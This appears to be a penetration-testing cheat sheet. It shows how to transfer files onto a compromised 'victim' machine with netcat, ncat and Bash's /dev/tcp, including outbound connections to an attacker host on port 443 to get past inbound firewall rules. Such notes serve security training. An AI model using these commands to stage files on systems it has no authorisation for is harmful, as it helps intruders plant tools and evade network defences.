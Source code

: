 ##### Victim's Machine listening on `<Port>` 

On the client side (victim's machine):

```bash
nc -lvp <port> > received.txt  

# Example using Ncat
ncat -lvp <port> --recv-only > received.txt  
# --recv-only: to close the connection once the file transfer is finished when using ncat.
```


On the server side (attacking machine):

```bash
# Data will be stored in received.txt file.
cat tobesentfile.txt | nc -v $ip <port>


# Alternative:
nc -q 0 $ipVictim <port> < tobesentfile.txt
# The option -q 0 will tell Netcat to close the connection once it finishes. 

ncat --send-only $ipVictim <port> < tobesentfile.txt 
# The --send-only flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.
```

##### Victim's machine connects to netcat only to receive the file 

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our attacker machine and send a file as input to Netcat.

On the server side (attacking machine):

```bash
sudo nc -l -p 443 -q 0 < tobesentfile.txt

ncat -l -p 443 --send-only < tobesentfile.txt
```

On the client side (victim's machine): Compromised Machine Connect to Netcat to Receive the File

```bash
nc $ipAttacker 443 > tobesentfile.txt

ncat $ipAttacker 443 --recv-only > tobesentfile.txt

# If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html). Using /dev/tcp to Receive the File
cat < /dev/tcp/$ipAttacker/443 > received.txt 
```
